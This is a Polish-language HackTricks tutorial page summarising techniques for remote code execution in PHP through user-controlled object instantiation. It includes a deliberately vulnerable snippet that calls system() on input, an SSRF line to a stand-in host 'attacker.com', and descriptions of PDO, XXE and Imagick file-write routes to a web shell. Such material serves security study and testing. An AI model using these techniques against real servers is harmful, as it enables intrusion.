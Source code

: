 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

To jest zasadniczo podsumowanie [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Wprowadzenie

Tworzenie nowych, dowolnych obiektów, takich jak `new $_GET["a"]($_GET["a"])`, może prowadzić do zdalnego wykonania kodu (RCE), jak szczegółowo opisano w [**artykule**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Dokument ten podkreśla różne strategie osiągania RCE.

## RCE za pomocą klas niestandardowych lub autoloadingu

Składnia `new $a($b)` jest używana do instancjonowania obiektu, gdzie **`$a`** reprezentuje nazwę klasy, a **`$b`** jest pierwszym argumentem przekazywanym do konstruktora. Te zmienne mogą pochodzić z danych wejściowych użytkownika, takich jak GET/POST, gdzie mogą być ciągami lub tablicami, lub z JSON, gdzie mogą występować jako inne typy.

Rozważ poniższy fragment kodu:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
W tym przypadku ustawienie `$a` na `App` lub `App2` oraz `$b` na polecenie systemowe (np. `uname -a`) skutkuje wykonaniem tego polecenia.

**Funkcje autoloading** mogą być wykorzystywane, jeśli takie klasy nie są bezpośrednio dostępne. Te funkcje automatycznie ładują klasy z plików w razie potrzeby i są definiowane za pomocą `spl_autoload_register` lub `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
Zachowanie autoloadingu różni się w zależności od wersji PHP, oferując różne możliwości RCE.

## RCE za pomocą klas wbudowanych

Brakując niestandardowych klas lub autoloaderów, **wbudowane klasy PHP** mogą wystarczyć do RCE. Liczba tych klas waha się od 100 do 200, w zależności od wersji PHP i rozszerzeń. Można je wylistować za pomocą `get_declared_classes()`.

Konstruktory, które mogą być interesujące, można zidentyfikować za pomocą API refleksji, jak pokazano w poniższym przykładzie oraz w linku [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE za pomocą konkretnych metod obejmuje:**

### **SSRF + Deserializacja Phar**

Klasa `SplFileObject` umożliwia SSRF poprzez swój konstruktor, pozwalając na połączenia z dowolnym URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF może prowadzić do ataków deserializacji w wersjach PHP przed 8.0 przy użyciu protokołu Phar.

### **Wykorzystywanie PDOs**

Konstruktor klasy PDO umożliwia połączenia z bazami danych za pomocą ciągów DSN, co potencjalnie umożliwia tworzenie plików lub inne interakcje:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Wersje PHP do 5.3.22 i 5.4.12 były podatne na ataki XXE za pośrednictwem konstruktorów `SoapClient` i `SimpleXMLElement`, w zależności od wersji libxml2.

## RCE za pomocą rozszerzenia Imagick

W analizie **zależności projektu** odkryto, że **Imagick** może być wykorzystany do **wykonywania poleceń** poprzez instancjonowanie nowych obiektów. Stwarza to możliwość wykorzystania luk w zabezpieczeniach.

### Parser VID

Zidentyfikowano zdolność parsera VID do zapisywania treści w dowolnie określonej ścieżce w systemie plików. Może to prowadzić do umieszczenia powłoki PHP w katalogu dostępnym przez sieć, osiągając zdalne wykonanie kodu (RCE).

#### Parser VID + Przesyłanie plików

Zauważono, że PHP tymczasowo przechowuje przesyłane pliki w `/tmp/phpXXXXXX`. Parser VID w Imagick, wykorzystując protokół **msl**, może obsługiwać znaki wieloznaczne w ścieżkach plików, co ułatwia przeniesienie tymczasowego pliku do wybranej lokalizacji. Ta metoda oferuje dodatkowe podejście do osiągnięcia dowolnego zapisu plików w systemie plików.

### Awaria PHP + Brute Force

Metoda opisana w [**oryginalnym opisie**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) polega na przesyłaniu plików, które powodują awarię serwera przed usunięciem. Poprzez brute forcing nazwy tymczasowego pliku, możliwe jest, aby Imagick wykonał dowolny kod PHP. Jednak ta technika okazała się skuteczna tylko w przestarzałej wersji ImageMagick.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
